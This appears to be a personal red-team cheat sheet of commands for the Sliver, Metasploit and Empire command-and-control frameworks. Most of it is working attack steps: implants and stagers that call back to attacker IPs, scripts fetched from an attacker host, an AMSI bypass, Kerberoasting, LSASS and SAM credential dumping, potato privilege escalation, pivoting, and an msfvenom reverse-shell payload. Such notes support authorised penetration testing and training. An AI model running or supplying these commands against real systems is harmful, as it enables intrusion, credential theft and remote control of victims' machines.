 - [Sliver](#sliver)
  - [General](#general)
  - [Enum](#enum)
    - [Nomal](#nomal)
    - [Domain](#domain)
  - [Privilege Escalation](#privilege-escalation)
  - [Collection](#collection)
  - [Lateral Move](#lateral-move)
  - [Shellcode create](#shellcode-create)
    - [donut](#donut)
- [Metasploit](#metasploit)
- [Empire](#empire)

# Sliver
## General
```bash
/opt/sliver/sliver-server_linux

## Listener
http -L 10.0.0.1 -l 8088
jobs

## implant beacon
generate beacon --http 10.10.14.62:8088 -N mybe.exe
### beacon tasks
tasks
### go session
use ??
interactive

## implant shellcode 
### session
profiles new --http 10.0.0.1:8088 --format shellcode mypf
## stage-listener
stage-listener --url tcp://10.0.0.1:443 --profile mypf 
## stager
generate stager -b '00 0a cc' --lhost 10.0.0.1 --lport 443 --save stage.bin 
-f python

### beacon
generate beacon --http 10.10.14.62:8088 -N mybe.bin -f shellcode
```

## Enum
### Nomal
```bash
# Nomal
seatbelt -- -group=all
sharpup -- audit

wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
sharpsh -- '-u http://10.10.14.36/PowerView.ps1,http://10.10.14.36/PrivescCheck.ps1 -c get-netlocalgroup,invoke-privesccheck'
```
### Domain
```bash
# Nomal
c2tc-domaininfo
sharpview -- Get-Domain
sharpview --in-process --amsi-bypass -- Get-Domain

# ASROP
rubeus -- asreproast /format:hashcat /nowrap
# kerberoast
## enum
delegationbof 6 child.my.local
## attack
c2tc-kerberoast roast alice
rubeus -- kerberoast /format:hashcat /nowrap

# ADCS
certify -- find 
# Forest
execute -o powershell $Forest = [System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest(); $Forest.Domains
```

## Privilege Escalation
```bash
### GotPotato
execute-assembly /usr/share/windows-binaries/GodPotato-NET4.exe -cmd ''
```

## Collection
```bash
# Nomal
##  NT AUTHORITY\SYSTEM
hashdump

# procdump
ps -e lsass
procdump --pid ??? /tmp/lsass.dmp
```

## Lateral Move
```bash
# chisel
chisel client --max-retry-count 2 10.0.0.1:2345 R:socks
## Rscoks
tail /etc/proxychains4.conf

# name pipe
pivots named-pipe --bind Etaks
## implant
generate --named-pipe 10.0.0.1/pipe/academy -N pipe_Etaks 
```

## Shellcode create
### donut
```bash
# nomal shell
donut -i /usr/share/windows-binaries/GodPotato-NET4.exe -a 2 -b 2 -p '-cmd c:\temp\mybe.exe' -o potato.bin

# sliver
execute-shellcode -p pid potato.bin
```

# Metasploit
```bash
# hundler
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT=1234 -f exe -o shell.exe
## to base64 
base64 -w0 shell.exe 
# start handler
use multi/handler
## htm c2
use exploit/windows/misc/hta_server
# sessions
sessions -l
sessions -i 1

# exploit suggest
use post/multi/recon/local_exploit_suggester

# privesc 
getsystem
migrate 

load kiwi
creds_all
lsa_dump_sam

# Port Forwading
use multi/manage/autoroute

use auxiliary/server/socks_proxy
set SRVHOST 127.0.0.1
set VERSION 5
run -j
jobs

# other
lcd /home/kali/Downloads
lpwd
download 
upload
```

# Empire
```bash
# first
listeners
uselistener http

usestager windows_launcher_vbs
usestager windows_cmd_exec

agents
interact
```